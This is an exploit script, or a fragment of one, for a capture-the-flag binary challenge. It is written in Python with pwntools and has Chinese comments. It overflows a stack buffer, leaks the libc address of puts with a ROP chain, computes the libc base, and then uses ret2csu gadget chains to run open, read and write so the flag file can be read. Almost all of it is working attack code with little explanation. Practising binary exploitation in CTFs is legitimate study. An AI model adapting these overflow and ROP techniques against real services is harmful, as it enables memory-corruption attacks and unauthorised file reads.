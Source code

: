 ```php
    p6r = 0x401B8A
    movecall = 0x401B70
    payload = p64(p6r) + p64(0)+ p64(1) + p64(functionPtr)
    payload += p64(arg1) + p64(arg2) + p64(arg3)
    payload += p64(movecall)
    payload += "A"*56 # balance the stack
    payload += p64(main) # return to main
    return payload
# 使用read向指定地址写入指定内容
# 这里无法控制输入的size, 即第三个参数rdx
def read2Address(address,content,libc_read):
    target.recvuntil(">> ")
    padding="A"*0x418+"\x28"
    payload = padding
    payload += p64(pop_rdi) + p64(0)
    payload += p64(pop_rsi_r15) + p64(address) + p64(0)
    payload += p64(libc_read) + p64(main)
    target.sendline(payload)
    target.sendline(content)
def pwn():
    target.recvuntil(">> ")
    padding="A"*0x418+"\x28"
    # 泄露libc
    payload = padding + p64(pop_rdi) + p64(puts_got)
    payload += p64(puts_plt) +p64(main)
    target.sendline(payload)
    target.recvuntil("given path.\n\x00")
    puts_leak = u64(target.recv(6).ljust(8,'\x00'))
    libc_base = puts_leak - libc.sym["puts"]
    success("libc_base: "+hex(libc_base))
    # 需要使用 ORW (open-read-write) 来 getflag
    libc_open = libc_base + libc.sym['open']
    libc_read = libc_base + libc.sym['read']
    libc_write = libc_base + libc.sym['write']
    # 将字符串"flag"写入到 (0x6030c0)
    read2Address(0x6030c0,"flag\x00",libc_read)
    # 因为使用ret2csu需要指向open的指针
    # 将open的地址写到0x6030C8
    read2Address(0x6030c8,p64(libc_open),libc_read)
    # open
    target.recvuntil(">> ")
    payload_open = padding + ret2csu(0x6030C8,0x6030c0,0,0)
    target.sendline(payload_open)
    # 将 flag 读取到 0x6030E0
    read2Address(0x6030c8,p64(libc_read),libc_read)
    target.recvuntil(">> ")
    payload_read = padding + ret2csu(0x6030c8,3,0x6030E0,0x30)
    target.sendline(payload_read)
    # 通过stderr输出0x6030E0中存放的flag
    read2Address(0x6030c8,p64(libc_write),libc_read)
    target.recvuntil(">> ")
    payload_write = padding + ret2csu(0x6030c8,2,0x6030E0,0x30)
    target.sendline(payload_write)
    target.interactive()
pwn()
```

